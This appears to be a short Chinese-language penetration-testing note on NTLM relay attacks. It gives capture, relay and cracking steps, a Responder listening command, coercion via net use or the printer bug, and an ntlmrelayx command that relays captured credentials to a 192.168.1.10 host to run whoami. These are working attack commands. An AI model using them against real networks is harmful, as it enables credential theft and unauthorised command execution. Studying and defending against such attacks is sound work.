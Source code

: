 # 重放攻击
NTLM（NT LAN Manager）重放攻击是一种利用 Windows 身份验证协议的中间人攻击
![](vx_images/172128831232810.png)


步骤:
```
1.捕获NTLM Hash
2.重放NTLM Hash
3.爆破NTLM Hash

```

NTLM监听:
```
​Responder​	中间人监听	responder -I eth0 -A
触发方式:
1.主动:net use或利用打印机漏洞强制触发
2.被动:如钓鱼

```
NTLM重放:
```
ntlmrelayx​	凭证重放	ntlmrelayx.py -t 192.168.1.10 -c whoami -smb2support

 
kai启动监听得到的NTML重放给1.10,(也可以是另一台机器),由于账号密码一致所以能执行whoami命令

原理:window先用本机的账号密码去认证,不成功再输入
因此需要目标进行降权或提权


若重放失败,可以尝试暴力破解:后续渗透

```